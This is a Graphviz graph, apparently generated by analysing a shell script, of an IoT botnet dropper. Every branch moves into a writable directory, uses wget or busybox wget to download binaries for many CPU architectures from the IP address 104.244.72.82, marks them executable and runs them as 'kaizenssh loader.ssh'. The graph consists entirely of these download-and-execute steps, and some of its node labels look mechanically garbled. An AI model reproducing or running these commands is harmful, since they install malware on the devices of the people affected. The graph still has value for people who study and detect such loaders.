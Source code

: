 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://104.244.72.82/bins/ssh.mips "];
10 -> 12 [label=";,"];
12 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.mips "];
12 -> 14 [label=";,"];
14 [label="cat ssh.mips kaizenssh "];
14 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 218 [label=";,"];
218 [label="./kaizenssh loader.ssh "];
218 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 32 [label="||,"];
32 [label="wget http://104.244.72.82/bins/ssh.mpsl "];
32 -> 34 [label=";,"];
34 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.mpsl "];
34 -> 36 [label=";,"];
36 [label="cat ssh.mpsl kaizenssh "];
36 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 218 [label=";,"];
218 [label="./kaizenssh loader.ssh "];
218 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 54 [label="||,"];
54 [label="wget http://104.244.72.82/bins/ssh.mips64 "];
54 -> 56 [label=";,"];
56 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.mips64 "];
56 -> 58 [label=";,"];
58 [label="cat ssh.mips64 kaizenssh "];
58 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 218 [label=";,"];
218 [label="./kaizenssh loader.ssh "];
218 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 76 [label="||,"];
76 [label="wget http://104.244.72.82/bins/ssh.x32 "];
76 -> 78 [label=";,"];
78 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.x32 "];
78 -> 80 [label=";,"];
80 [label="cat ssh.x32 kaizenssh "];
80 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 86 [label=";,"];
86 [label="./kaizenssh ssh.x86 "];
86 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 98 [label="||,"];
98 [label="wget http://104.244.72.82/bins/ssh.x86 "];
98 -> 100 [label=";,"];
100 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.x86 "];
100 -> 102 [label=";,"];
102 [label="cat ssh.x86 kaizenssh "];
102 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 108 [label=";,"];
108 [label="./kaizenssh ssh.x32 "];
108 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 120 [label="||,"];
120 [label="wget http://104.244.72.82/bins/ssh.arm "];
120 -> 122 [label=";,"];
122 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.arm "];
122 -> 124 [label=";,"];
124 [label="cat ssh.arm kaizenssh "];
124 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 218 [label=";,"];
218 [label="./kaizenssh loader.ssh "];
218 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 142 [label="||,"];
142 [label="wget http://104.244.72.82/bins/ssh.arm6 "];
142 -> 144 [label=";,"];
144 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.arm6 "];
144 -> 146 [label=";,"];
146 [label="cat ssh.arm6 kaizenssh "];
146 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 218 [label=";,"];
218 [label="./kaizenssh loader.ssh "];
218 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 164 [label="||,"];
164 [label="wget http://104.244.72.82/bins/ssh.arm7 "];
164 -> 166 [label=";,"];
166 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.arm7 "];
166 -> 168 [label=";,"];
168 [label="cat ssh.arm7 kaizenssh "];
168 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 218 [label=";,"];
218 [label="./kaizenssh loader.ssh "];
218 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 186 [label="||,"];
186 [label="wget http://104.244.72.82/bins/ssh.ppc "];
186 -> 188 [label=";,"];
188 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.ppc "];
188 -> 190 [label=";,"];
190 [label="cat ssh.ppc kaizenssh "];
190 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 218 [label=";,"];
218 [label="./kaizenssh loader.ssh "];
218 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://104.244.72.82/bins/ssh.sh4 "];
208 -> 210 [label=";,"];
210 [label="/bin/busybox wget http://104.244.72.82/bins/ssh.sh4 "];
210 -> 212 [label=";,"];
212 [label="cat ssh.sh4 kaizenssh "];
212 -> 214 [label=";,"];
214 [label="kaizenssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 218 [label=";,"];
218 [label="./kaizenssh loader.ssh "];
218 -> 219 [label=";,"];
}
